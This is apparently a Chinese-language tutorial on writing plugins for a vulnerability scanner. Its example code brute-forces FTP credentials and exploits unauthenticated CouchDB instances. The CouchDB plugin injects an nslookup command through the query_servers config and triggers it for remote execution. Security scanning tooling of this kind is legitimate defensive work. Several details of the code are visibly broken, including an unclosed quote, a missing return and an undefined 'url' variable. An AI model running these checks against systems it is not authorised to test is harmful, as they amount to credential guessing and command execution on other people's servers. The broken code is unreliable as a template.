

插件编写
漏洞插件支持2种类型，标示符与python脚本，可以通过官方推送渠道安装或者自行添加。
JSON标示符
例子

Python脚本
插件标准非常简洁，只需通过 get_plugin_info方法定义插件信息，check函数检测漏洞即可。
# coding:utf-8
import ftplib
def get_plugin_info(): # 插件描述信息
plugin_info = {
"name": "FTP弱口令",
"info": "导致敏感信息泄露，严重情况可导致服务器被入侵控制。",
"level": "高危",
"type": "弱口令",
"author": "wolf@YSRC",
"url": "",
"keyword": "server:ftp", # 推荐搜索关键字
}
return plugin_info
def check(ip, port, timeout): # 漏洞检测代码
user_list = ['ftp', 'www', 'admin', 'root', 'db', 'wwwroot', 'data', 'web']
for user in user_list:
for pass_ in PASSWORD_DIC: # 密码字典无需定义，程序会自动为其赋值。
pass_ = str(pass_.replace('{user}', user))
try:
ftp = ftplib.FTP()
ftp.timeout = timeout
ftp.connect(ip, port)
ftp.login(user, pass_)
if pass_ == '': pass_ = "null"
if user == 'ftp' and pass_ == 'ftp: return u"可匿名登录"
return u"存在弱口令，账号：%s，密码：%s" % (user, pass_) # 成功返回结果，内容显示在扫描结果页面。
except:
pass
此外系统内嵌了辅助验证功能:
import urllib2
import random
import socket
def get_plugin_info(): # 插件描述信息
plugin_info = {
"name": "CouchDB未授权访问",
"info": "导致敏感信息泄露，攻击者可通过控制面板执行系统命令，导致服务器被入侵。",
"level": "高危",
"type": "未授权访问",
"author": "wolf@YSRC",
"url": "",
"keyword": "server:couchdb", # 推荐搜索关键字
}
def get_ver_ip():
csock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
csock.connect(('8.8.8.8', 80))
(addr, port) = csock.getsockname()
csock.close()
return addr
def random_str(len):
str1=""
for i in range(len):
str1+=(random.choice("ABCDEFGH1234567890"))
return str(str1)
def check(ip,port,timeout):
rand_str = random_str(8)
cmd = random_str(4)
server_ip = get_ver_ip()
req_list = [
["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
["/vultest123",''],
["/vultest123/test",'{"_id":"safetest"}']
]
for req_info in req_list:
try:
request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
request.get_method = lambda: 'PUT'
urllib2.urlopen(request)
except:
pass
try:
req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
req_exec.add_header("Content-Type","application/json")
urllib2.urlopen(req_exec)
except:
pass
check = urllib2.urlopen("http://%s/%s"%(server_ip,rand_str)).read()
if 'YES' in check:
return u"未授权访问"